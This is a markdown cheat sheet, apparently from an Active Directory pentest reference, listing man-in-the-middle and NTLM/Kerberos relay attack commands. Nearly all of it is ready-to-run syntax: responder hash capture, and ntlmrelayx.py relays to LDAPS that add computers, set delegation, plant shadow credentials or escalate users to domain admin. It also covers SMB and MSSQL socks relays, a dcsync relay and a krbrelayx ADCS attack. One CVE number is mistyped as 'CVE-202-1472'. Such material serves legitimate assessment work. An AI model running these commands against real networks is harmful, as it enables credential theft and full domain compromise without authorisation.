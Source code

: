 ```yaml
---
title: "Man In The Middle (Listen and Relay)"
description: "Man In The Middle (Listen and Relay) techniques and commands for Active Directory security assessment."
---
```

## Listen >>> Hash NTLMv1 or NTLMv2 || Username || Credentials (ldap/http) 
- `responder -l <interface> #use --lm to force downgrade`
- `smbclient.py`

## NTLM relay
- MS08-068 self relay @CVE@
  - `msf> exploit/windows/smb_smb_relay # windows 2000 / windows server 2008`

- SMB -> LDAP(S)
  - NTLMv1
    - remove mic (no CVE needed)  >>> see LDAP(S)
  - NTLMv2
    - Remove mic (CVE-2019-1040) @CVE@ >>> see LDAP(S)

- HTTP(S) -> LDAP(S)
  - Usually from webdav coerce >>> see LDAP(S)

- To LDAP(S)
  - Relay to LDAP if LDAP signing and LDAPS channel binding not enforced (default)
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --add-computer <computer_name> <computer_password> --delegate-access ` >>> RBCD
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --shadow-credentials --shadow-target '<dc_name$>'` >>> Shadow Credentials
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --escalate-user <user>` >>> Domain admin
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --interactive # connect to ldap_shell with nc 127.0.0.1 10111` >>> LDAP SHELL

- To SMB
  - Relay to SMB (if SMB is not signed)
    - Find SMB not signed targets (default if not a Domain controler)
      - `nxc smb <ip_range> --gen-relay-list smb_unsigned_ips.txt`
    - `ntlmrelayx.py -tf smb_unsigned_ips.txt -smb2support [--ipv6] -socks` >>> SMB Socks

- To HTTP 
  - Relay to CA web enrollement >>> ESC8
  - Relay to WSUS >>> WSUS

- To MsSQL
  - `ntlmrelayx.py -t mssql://<ip> [-smb2support] -socks` >>> MSSQL Socks

- SMB -> NETLOGON
  - Zero-Logon (safe method) (CVE-202-1472) @CVE@
    - Relay one dc to another
      - `ntlmrelayx.py -t dcsync://<dc_to_ip> -smb2support -auth-smb <user>:<password>` >>> DCSYNC

## Kerberos relay
- To HTTP
  - `krbrelayx.py -t 'http://<pki>/certsrv/certfnsh.asp' --adcs --template DomainController -v '<target_netbios>$' -ip <attacker_ip>` >>> ESC8
- SMB -> SMB
  - same as NTLM relay, use krbrelayx.py
- SMB -> LDAP(S)
  - same as NTLM relay, use krbrelayx.py